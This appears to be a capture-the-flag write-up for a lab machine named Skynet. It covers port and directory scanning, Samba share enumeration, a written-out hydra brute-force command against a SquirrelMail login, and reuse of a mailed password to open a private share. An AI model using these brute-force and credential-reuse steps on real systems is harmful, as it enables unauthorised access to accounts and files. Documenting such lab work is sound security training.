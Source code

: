 # Skynet write-up

# 1. Recon

## Nmap

| PORT         | STATE SERVICE                                                   | REASON                | VERSION                                                              |
|--------------|-----------------------------------------------------------------|-----------------------|----------------------------------------------------------------------|
| 22/tcp       | open                                                            | ssh                   | syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) |
| 80/tcp       | open                                                            | http                  | syn-ack Apache httpd 2.4.18 ((Ubuntu))                               |
| 110/tcp open | pop3                                                            | syn-ack Dovecot pop3d |                                                                      |
| 139/tcp open | netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |                       |                                                                      |
| 143/tcp open | imap                                                            | syn-ack Dovecot imapd |                                                                      |
| 445/tcp open | netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |                       |                                                                      |

Let's dig in the web server first

## Gobuster
> gobuster dir -u 10.10.228.54  -w /usr/share/wordlists/dirb/big.txt

| Path           | Info                                                              |
|----------------|-------------------------------------------------------------------|
| /.htpasswd     | (Status: 403) [Size: 277]                                         |
| /.htaccess     | (Status: 403) [Size: 277]                                         |
| /admin         | (Status: 301) [Size: 312] [--> http://10.10.228.54/admin/]        |
| /ai            | (Status: 301) [Size: 309] [--> http://10.10.228.54/ai/]           |
| /config        | (Status: 301) [Size: 313] [--> http://10.10.228.54/config/]       |
| /css           | (Status: 301) [Size: 310] [--> http://10.10.228.54/css/]          |
| /js            | (Status: 301) [Size: 309] [--> http://10.10.228.54/js/]           |
| /server-status | (Status: 403) [Size: 277]                                         |
| /squirrelmail  | (Status: 301) [Size: 319] [--> http://10.10.228.54/squirrelmail/] |

We don't have access to many of the folders, but the /squirrelmail can be accessed and seems interesting.<br>
On /squirrelmail, we get a login form for a web app named SquirrelMail version 1.4.23 [SVN].<br>
But we don't have any credentials. Let's search at another place.

## SAMBA

On the port 139/445, a samba server seems to be running, let's enumerate the remote shares.<br>
> smbclient -L //ip/

| Share name | Type | Comment                                     |
|------------|------|---------------------------------------------|
| print$     | Disk | Printer Drivers                             |
| anonymous  | Disk | Skynet Anonymous Share                      |
| milesdyson | Disk | Miles Dyson Personal Share                  |
| IPC$       | IPC  | IPC Service (skynet server (Samba, Ubuntu)) |

Two shares are interessting, <strong>anonymous</strong> and <strong>milesdyson</strong><br>
We need to search on the anonymous share<br>
> smbclient //ip/anonymous

We can find two files not empty : <strong>attention.txt</strong> and <strong>log1.txt</strong><br>
Attention.txt<br>
```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```
log1.txt which seems to be a password list.<br>
The <strong>milesdyson</strong> share might also be a username.<br>
Let's try to brute force the mail app using the username and the creds found in log1.txt<br>

## Hydra

Using burp suite, we can view how a request is made to the login system. It's a post request with thoses parameters :<br>
```login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1```<br>
to the /squirrelmail/src/redirect.php/ endpoint.<br>
We can then craft an hydra command : 
> hydra -l milesdyson -P log1.txt 10.10.66.5 http-post-form "/squirrelmail/src/redirect.php/:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."

We can then find a password : <br>
```[80][http-post-form] host: 10.10.66.5   login: milesdyson   password: [REDACTED]```

Let's login to the mail app, and in one mail we found that : 
```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B
```

## SAMBA 2

Now we have the the password for the samba <strong>milesdyson</strong> share, we can get in it.<br>
> smbclient -U milesdyson //10.10.228.54/milesdyson

In a notes folder, we can retrieve an important.txt containing :
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

